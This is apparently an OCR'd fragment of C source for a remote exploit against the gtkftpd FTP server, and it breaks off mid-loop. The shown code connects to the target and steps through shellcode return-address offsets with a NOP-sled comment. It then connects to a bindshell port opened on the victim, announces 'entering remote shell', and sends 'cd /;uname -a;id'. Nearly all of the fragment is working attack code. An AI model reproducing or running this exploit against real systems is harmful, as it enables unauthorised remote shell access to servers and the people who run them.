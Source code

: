       ftp_read(sock);
      getshell(sock,offset);
      offset+=400; /* always at least 400 nops in a row, in shellcode. */
     }
     ftp_clean(sock);
     close(sock);
     return;
    }
    void ftp_connect(void){
     int sock;
     struct hostent *t;
     struct sockaddr_in s;
     sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     s.sin_family=AF_INET;
     s.sin_port=htons(port);
     if((s.sin_addr.s_addr=inet_addr(host))){
      if(!(t=gethostbyname(host)))
       printe("couldn't resolve hostname.",1);
      memcpy((char*)&s.sin_addr,(char*)t->h_addr,sizeof(s.sin_addr));
     }
     printf("[*] attempting to connect: %s:%d.\n",host,port);
     signal(SIGALRM,sig_alarm);
     alarm(TIMEOUT);
     if(connect(sock,(struct sockaddr *)&s,sizeof(s)))
      printe("gtkftpd connection failed.",1);
     alarm(0);
     printf("[*] connected successfully: %s:%d.\n",host,port);
     ftp_parse(sock);
     return;
    }
    void getshell(int ftpsock,unsigned int offset){
     int sock,r;
     fd_set fds;
     char buf[4096+1];
     struct hostent *he;
     struct sockaddr_in sa;
     if((sock=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP))==-1)
      printe("getshell(): socket() failed.",1);
     sa.sin_family=AF_INET;
     if((sa.sin_addr.s_addr=inet_addr(host))){
      if(!(he=gethostbyname(host)))
       printe("getshell(): couldn't resolve.",1);
      memcpy((char *)&sa.sin_addr,(char *)he->h_addr,sizeof(sa.sin_addr));
     }
     sa.sin_port=htons(sport);
     signal(SIGALRM,sig_alarm);
     alarm(TIMEOUT);
     printf("[*] checking for bindshell: %s:%d. (0x%.8x)\n",host,sport,
     (!reverse?(baseaddr-offset):(baseaddr+offset)));
     if(connect(sock,(struct sockaddr *)&sa,sizeof(sa))){
      printf("[!] connection failed: %s:%d.\n",host,sport);
      close(sock); /* don't want fd's to fill up. */
      alarm(0);
      return;
     }
     alarm(0);
     printf("[*] successfully connected: %s:%d.\n",host,sport);
     printf("[*] attempting to cleanup leftover directory(s).\n");
     ftp_clean(ftpsock);
     close(ftpsock);
     printf("[*] entering remote shell. (%s:%d)\n\n",host,sport);
     signal(SIGINT,SIG_IGN);
     write(sock,"cd /;uname -a;id\n",18);
     while(1){
